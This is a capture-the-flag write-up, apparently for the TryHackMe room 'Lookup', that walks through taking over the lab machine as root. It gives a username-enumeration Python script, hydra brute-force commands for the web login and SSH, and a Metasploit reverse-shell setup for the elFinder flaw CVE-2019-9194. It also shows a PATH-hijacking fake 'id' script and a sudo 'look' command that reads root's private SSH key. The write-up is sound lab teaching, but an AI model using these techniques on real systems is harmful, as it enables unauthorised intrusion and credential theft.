

# Lookup 

<p align="center">
    
</p>

# Description

**Lookup** offers a treasure trove of learning opportunities for aspiring hackers. This intriguing machine showcases various real-world vulnerabilities, ranging from web application weaknesses to privilege escalation techniques. By exploring and exploiting these vulnerabilities, hackers can sharpen their skills and gain invaluable experience in ethical hacking. Through "Lookup," hackers can master the art of reconnaissance, scanning, and enumeration to uncover hidden services and subdomains. They will learn how to exploit web application vulnerabilities, such as command injection, and understand the significance of secure coding practices. The machine also challenges hackers to automate tasks, demonstrating the power of scripting in penetration testing.

# Proof Of Concept 

Well as usual add your machine ip to **`/etc/hosts/`** and we can start hacking. 

Well we got login page as the index on `lookup.thm` , try to bypass with `admin:admin` but shows nothing, try with SQLi also give the same result. Try to find a subodomain or any available directory but none is shows a bright future ( well this is frustrated ).

so let's create python script to enumerate user

```
import requests

url = "http://lookup.thm/login.php"  
wordlist_file = "/home/amca/names.txt"  
method = "POST"                  
valid_response_indicator = "Wrong passwords."  

def enumerate_users(url, wordlist_file, method, valid_response_indicator):
    try:
        with open(wordlist_file, "r") as file:
            usernames = file.read().splitlines()

        print("[*] Starting enumeration...")
        for username in usernames:
            if method.upper() == "POST":
                response = requests.post(url, data={"username": username, "password": "pass"})
            elif method.upper() == "GET":
                response = requests.get(url, params={"username": username})
            else:
                print(f"[-] Unsupported HTTP method: {method}")
                return

            if valid_response_indicator not in response.text:
                print(f"[+] Found valid username: {username}")
            else:
                print(f"[-] Invalid username: {username}")

        print("[*] Enumeration completed.")
    except FileNotFoundError:
        print(f"[-] Wordlist file not found: {wordlist_file}")
    except requests.RequestException as e:
        print(f"[-] Error sending request: {e}")
    except Exception as e:
        print(f"[-] An unexpected error occurred: {e}")

if __name__ == "__main__":
    enumerate_users(url, wordlist_file, method, valid_response_indicator)
```

and we found what we looking for

```
[+] Found valid username: admin
[+] Found valid username: jose
```

Now we got the user, let's break into the website, power up hydra and start bruteforce with a username **`jose`**

```hydra -l jose -P /usr/share/wordlists/rockyou.txt -f -v http-post-form http://lookup.thm```


and Voila, we got the credentials that we need

#

#### What is the user flag?

Now into the dashboard, we found a file that allow read only and a another credentials for another login (i guess :P)

I try to upload php file but it turns out error, so try to find info what is the dashboard really is and found that its `elFinder` version `2.1.47`


the exploit is out and on `CVE-2019-9194` but im just gonna use metasploit :P 


power up msfconsole and search for elFinder 


fill up the requirement and you shall get the shell


```
set RHOSTS files.lookup.thm
set LHOST 10.8.58.21
set LPORT 4444 # Optional
```

now we got the shell under `/var/www/lookup.thm/files.lookup.thm/elFinder/php` directory the `user.txt` is on `/home/think` 


fortunately we don't have access for that.

```
Explain : 

-rw------- can be represented numerically as 600. The 6 translates as rw for the user and the 0s translate as "no access" for group and world, respectively.
```

we have to think another way to get the user flag

# 

#### What is the root flag?

Inside the system, we have two additional users: **`think`** and **`root`**

did a research on opportunities to privilege escalation, found a file named `/usr/sbin/pwm` also this file own as root ( sigh* everything is root nowadays )

this is the binary that when we execute it the `id` command, and then extracts the username out of it, and then puts that username into “/home/[username]/.passwords” and tries to do something with it 

Let’s try to trick the program into executing a different `id` command, one that would result in the `think` username to be extracted from the output.

also add `/tmp` to our `$PATH` and create `/tmp/id` with this and add execute (x) permission to it
> chmod +x

```
#!/bin/bash
echo "uid=33(think) gid=33(think) groups=(think)"
```

it'll goes like this and look like we found a wordlist 


remember that it has open port of ssh, let's try bruteforce ssh login with the wordlists that given

```
hydra -l think -P pass-lookup-thm.txt ssh://[MACHINE_IP] -t 4
```



connect to it, we can now go to another action


**Think** can use the `look` binary as `sudo`, which is useful for reading files. [GTFObin](https://gtfobins.github.io/) come in handy on this situation.


with the command provide we want to read file named `.id_rsa` on root directory to gain a root access to get both flag

```
LFILE=/root/.ssh/id_rsa

sudo look '' "$LFILE"
```

you'll then receive the content on file `.id_rsa`, save it and set the correct permission 

```
chmod 600 id_rsa
ssh -i id_rsa root@[MACHINE_IP]
```

and now **We Are Root !!**


# 

#### Conclusion

As a conclusion, it is a tough room the difficulty could be like easy > medium, overall its fun room. 


# Happy Hacking


